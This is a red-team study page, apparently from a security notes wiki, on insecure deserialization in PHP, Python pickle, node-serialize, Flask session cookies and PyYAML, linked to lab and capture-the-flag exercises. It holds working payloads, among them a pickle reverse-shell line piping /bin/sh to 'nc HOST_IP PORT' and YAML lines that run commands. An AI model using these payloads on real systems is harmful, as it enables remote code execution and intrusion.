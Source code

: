 # Insecure Deserialization

[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![deserialization](../../../../_badges/owasp/deserialization.svg)](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)

<div class="row row-cols-lg-2"><div>

Insecure Deserialization is a vulnerability that occurs when the deserialization process can be exploited to run malicious code.
</div><div>
</div></div>

<hr class="sep-both">

## SerializedVariable Deserialization — PHP

[![php_deserialization](../../../../_badges/poat/php_deserialization.svg)](https://swisskyrepo.github.io/PayloadsAllTheThings/Insecure%20Deserialization/PHP/)
[![php_serialization](../../../../_badges/rootme/web_server/php_serialization.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Serialization)
[![php_unserialize_pop_chain](../../../../_badges/rootme/web_server/php_unserialize_pop_chain.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Unserialize-Pop-Chain)

<div class="row row-cols-lg-2"><div>

The [serialize](https://www.php.net/manual/en/function.serialize.php) function can be used to convert an object to a serialized string that can be loaded back using [unserialize](https://www.php.net/manual/en/function.unserialize.php).

If the serialized data is user-controlled, we may be able to:

* 🏁 Invoke defined methods using autoloading <small>(e.g. not arbitrary)</small>
* 🔫 Manipulate data to exploit the code <small>(e.g. auth-bypass)</small>

#### SerializedVariable — Data Manipulation

We may be able to bypass some checks or set some attributes.

```php!
$serialized = serialize(['user'=>'guest', 'is_admin'=>false]);
// a:2:{s:4:"user";s:5:"guest";s:8:"is_admin";b:0;}
$data = unserialize('a:2:{s:4:"user";s:5:"guest";s:8:"is_admin";b:1;}');
// ['user'=>'guest', 'is_admin'=>true]
```

This can be further exploited if there are some [logic flaws](/cybersecurity/red-team/s2.discovery/techniques/websites/logic_flaws.md#php-loose-comparison-and-type-juggling).
</div><div>

#### SerializedVariable — Program Flow Manipulation

When unserializing an object, the method `__wakeup` is automatically called. This method may contain code that may be further exploited.

While we cannot inject code directly, we may be able to create a suite of successive method calls, referred to as a **gadget chain** 🤖. It may eventually lead to a RCE. Refer to [phpggc](https://github.com/ambionics/phpggc) <small>(3.0k ⭐)</small>.

```php!
class Foo {}
class Bar
{
    public function __wakeup(): void {
        echo $this; // invoke __toString
    }

    public function __toString(): string {
        return "Bar.__toString";
    }

    // will be called when destroyed
    public function __destruct() { echo "Bar.__destruct"; }
}

$x = new Foo();      
$x->attr = new Bar();       // who cares 'attr' doesn't exist
unserialize(serialize($x)); // __wakeup will still be called
```
</div></div>

<hr class="sep-both">

## Pickle Deserialization — Python

[![unbakedpie](../../../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)
[![python_pickle](../../../../_badges/rootme/app_script/python_pickle.svg)](https://www.root-me.org/en/Challenges/App-Script/Python-pickle)

<div class="row row-cols-lg-2"><div>

The python [pickle module](https://docs.python.org/3/library/pickle.html) can be used for object serialization, while it's explicitly stated that it shouldn't be used with untrusted input.

You can either use `__reduce__` or use a function following [checkoway](https://checkoway.net/musings/pickle/) article, the latter being *sightly* more complex.

```py
class Exploit(object):
    def __reduce__(self):
        # write your code here
```

To test your exploit

```py
payload = pickle.dumps(Exploit())
pickle.loads(payload)
// base64.urlsafe_b64encode(payload)
```

You may alternatively use pickle bytecode:

* [Pickora](https://github.com/splitline/Pickora) <small>(0.1k ⭐, 2023 🪦)</small>
* [pickleassem](https://github.com/gousaiyang/pickleassem) <small>(0.01k ⭐, 2021 🪦)</small>
</div><div>

A few code samples:

```py
        import os
        return (os.system, ("echo 'Hello, World!'",))
```

```py
        import os # doesn't work with pickle.dumps
        raise Exception(os.popen("whoami;id;pwd;ls -1a").read())
```

```py
        import os # sudo tcpdump -i tun0 icmp
        return (os.system, ("ping -c 1 HOST_IP",))
```

```py
        import os
        return (os.system, ("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1 | nc HOST_IP PORT > /tmp/f",))
```
</div></div>

<hr class="sep-both">

## node-serialize Deserialization — Python

<div class="row row-cols-lg-2"><div>

The [node-serialize](https://github.com/luin/serialize) <small>(0.1k ⭐, 2017 🪦)</small> library is an unofficial unmaintained library that has multiple vulnerabilities.

Data should be the only thing serialized, but this library can serialize functions, which with untrusted input, leads to RCE.

The official vulnerability is [CVE-2017-5941](https://nvd.nist.gov/vuln/detail/CVE-2017-5941).

```js!
const serialize = require('node-serialize')
const payload = {
    "poc": function () {
        // payload here
    }
}
```

For payloads, refer to [Node.js payloads](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#nodejs).
</div><div>

```js!
// Serialize - but not executable yet
const serialized = serialize.serialize(payload);
// Immediately invoked function expression (IIFE) Patch
const serializedJson = JSON.parse(serialized)
for (const key in serializedJson) {
    if (serializedJson[key].includes("$$ND_FUNC$$")) {
        serializedJson[key] = serializedJson[key] + "()"
    }
}
// Serialize Again
const iife_serialized = JSON.stringify(serializedJson)
```

To execute the code:

```js!
serialize.unserialize(iife_serialized)
```

</div></div>

<hr class="sep-both">

## Example CVEs

<div class="row row-cols-lg-2"><div>

#### CVE-2021-33026 (Flask/Python)

[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![flask_unsecure_session](../../../../_badges/rootme/web_server/flask_unsecure_session.svg)](https://www.root-me.org/en/Challenges/Web-Server/Flask-Unsecure-session)

An insure deserialization in Flask (Python) allowed  a hacker to craft a malicious [cookie](/programming-languages/web/_general/random/cookies.md) with a command inside. When the cookie was deserialized, the command was executed by the server.

* Cookies can be read without the secret key
* Cookies can be forged with the secret key
* [kirsle flask cookie reader](https://www.kirsle.net/wizards/flask-session.cgi) (Website)
* See also: [flask-session-manager](https://github.com/noraj/flask-session-cookie-manager) <small>(0.6k ⭐)</small> or [Flask Unsign](https://github.com/Paradoxis/Flask-Unsign)  <small>(0.4k ⭐)</small>

```shell!
$ pip3 install flask-unsign[wordlist]
$ sudo ln -s /home/<xxx>/.local/bin/flask-unsign /usr/bin/flask-unsign
$ flask-unsign --decode --cookie 'cookie'        # decode
$ flask-unsign --unsign --cookie 'cookie'        # find key
$ flask-unsign --sign --cookie '' --secret 'dev' # encode
```
</div><div>

#### Yaml Deserialization - PyYAML

[![python_yaml_deserialization](../../../../_badges/hacktricks/python_yaml_deserialization.svg)](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization)
[![yaml_deserialization](../../../../_badges/poat/yaml_deserialization.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/YAML.md)
[![yaml_deserialization](../../../../_badges/rootme/web_server/yaml_deserialization.svg)](https://www.root-me.org/en/Challenges/Web-Server/Yaml-Deserialization)

PyYAML version 6 and below instanciated by default an insecure parser which could be exploited to run python code.

```yaml!
xxx: !!python/object/apply:time.sleep [2]
```

The `xxx:` is only necessary if a specific element <small>(e.g., xxx)</small> is rendered.

```yaml!
!!python/object/apply:builtins.range [1,10,1]
!!python/object/apply:subprocess.Popen ["ls"]
!!python/object/apply:subprocess.check_output [['ls', '-la']]
!!python/object/apply:builtins.eval [ "5" ]
!!python/object/apply:builtins.eval [ "__import__('subprocess') or 'error'" ]
!!python/object/apply:builtins.eval [ "__import__('subprocess').check_output(['ls', '-l']).decode('utf-8') or 'error'" ]
```

➡️ See also: [python-deserialization-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) <small>(0.1k ⭐)</small>.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [ysoserial](https://github.com/frohoff/ysoserial) (Java object deserialization)
</div><div>
</div></div>